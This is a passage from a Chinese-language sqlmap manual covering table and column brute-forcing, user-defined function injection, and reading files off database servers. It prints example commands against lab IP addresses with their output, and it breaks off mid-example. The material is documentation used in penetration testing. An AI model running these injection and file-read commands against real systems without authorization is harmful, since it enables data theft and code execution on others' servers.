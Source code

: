 暴力破解的表在txt/common-tables.txt文件中，你可以自己添加。

列举一个MySQL 4.1的例子：
```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL &lt; 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```
暴力破解列名

参数：`--common-columns`

与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。
用户自定义函数注入

参数：`--udf-inject,--shared-lib`

你可以通过编译MySQL注入你自定义的函数（UDFs）或PostgreSQL在windows中共享库，DLL，或者Linux/Unix中共享对象，sqlmap将会问你一些问题，上传到服务器数据库自定义函数，然后根据你的选择执行他们，当你注入完成后，sqlmap将会移除它们。
系统文件操作
从数据库服务器中读取文件

参数：`--file-read`

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。

列举一个Microsoft SQL Server 2005的例子：
```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
--file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C__example.exe

$ file output/192.168.136.129/files/C__example.exe 
```